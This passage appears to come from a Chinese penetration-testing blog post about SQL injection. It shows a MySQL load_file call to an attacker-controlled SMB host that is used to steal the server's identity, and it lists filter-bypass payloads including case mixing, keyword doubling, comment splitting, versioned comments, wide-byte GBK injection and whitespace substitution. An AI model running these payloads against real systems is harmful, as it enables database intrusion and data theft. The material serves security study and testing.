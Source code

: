 <p nodeIndex="188"><span nodeIndex="626">4. 在MySQL Server上运行如下的代码，则会产生shell。相当于访问攻击机的smb服务,但实际上是窃取了mysql_server的身份</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="189">
select load_file('\\攻击机ip\aa');
</pre>

<p nodeIndex="191"><span nodeIndex="628"><strong nodeIndex="629">绕过技巧</strong></span></p>
<hr nodeIndex="630"><p nodeIndex="192"><span nodeIndex="631"><strong nodeIndex="632"><span nodeIndex="633">绕过单引号</span></strong></span></p>
<div id="RIL_IMG_17" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/17"/></div>
<p nodeIndex="194"><span nodeIndex="635"><strong nodeIndex="636">大小写绕过</strong></span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="195">
?id=1+UnIoN+SeLecT+1,2,3--
</pre>
<p nodeIndex="196"><span nodeIndex="637"><strong nodeIndex="638">替换绕过</strong></span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="197">
?id=1+UNunionION+SEselectLECT+1,2,3--
</pre>
<p nodeIndex="198"><span nodeIndex="639"><strong nodeIndex="640">注释绕过</strong></span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="199">
?id=1+un/**/ion+se/**/lect+1,2,3--
</pre>
<p nodeIndex="200"><span nodeIndex="641"><strong nodeIndex="642">特殊嵌入绕过</strong></span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="201">
?id=1/*!UnIoN*/SeLecT+1,2,3--
</pre>
<p nodeIndex="202"><span nodeIndex="643"><strong nodeIndex="644"><span nodeIndex="645">宽字节注入</span></strong></span></p>
<p nodeIndex="203"><span nodeIndex="646">SQL注入中的宽字节国内最常使用的gbk编码，这种方式主要是绕过addslashes等对特殊字符进行转移的绕过。反斜杠()的十六进制为%5c，在你输入%bf%27时，函数遇到单引号自动转移加入\，此时变为%bf%5c%27，%bf%5c在gbk中变为一个宽字符“縗”。%bf那个位置可以是%81-%fe中间的任何字符。不止在sql注入中，宽字符注入在很多地方都可以应用。</span></p>
<p nodeIndex="204"><span nodeIndex="647"><strong nodeIndex="648">MySQL版本号字符</strong></span></p>
<p nodeIndex="205"><span nodeIndex="649">Examples:</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="207">
<span nodeIndex="650">UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+    <br nodeIndex="651">SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);</span>
</pre>
<p nodeIndex="208"><span nodeIndex="652">这样的查询语句是可以执行的，我理解为类似Python中第一行注释指定解析器一样#!/bin/sh</span></p>
<p nodeIndex="209"><span nodeIndex="653">对于小于或等于版本号的语句就会执行</span></p>
<p nodeIndex="210"><span nodeIndex="654">例如目前的Mysql版本为5.7.17那么/!50717/及其以下的语句即可执行</span></p>
<p nodeIndex="211"><span nodeIndex="655"><strong nodeIndex="656">字符编码绕过</strong></span></p>
<p nodeIndex="212"><span nodeIndex="657">前段时间看到ph师傅的博客是讨论mysql字符编码的文章，大概意思如下，原文在</span><a href="https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html" target="_self" nodeIndex="658"><span nodeIndex="659">这里</span></a></p>
<p nodeIndex="213"><span nodeIndex="660">当出现有以下代码时，指设置了字符编码为utf-8，但并不是全部为utf-8，而在具体的转换过程中会出现意外的情况，具体可以看ph师傅的文章</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="214">
$mysqli->query("set names utf8");
</pre>
<p nodeIndex="215"><span nodeIndex="661">在sql查询中</span></p>
<p nodeIndex="216"><span nodeIndex="662">test.php?username=admin%e4中的%e4会被admin忽略掉而绕过了一些逻辑，还有一些类似于$e4这样的字符如%c2等</span></p>
<p nodeIndex="217"><span nodeIndex="663"><strong nodeIndex="664">绕空格</strong></span></p>
<p nodeIndex="218"><strong nodeIndex="665"><span nodeIndex="666">特殊字符绕过空格</span></strong></p>
<div id="RIL_IMG_18" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/18"/></div>
<p nodeIndex="220"><span nodeIndex="668">Example:</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="221">
'%0AUNION%0CSELECT%A0NULL%20%23
</pre>
<p nodeIndex="222"><strong nodeIndex="669"><span nodeIndex="670">括号绕过空格</span></strong></p>
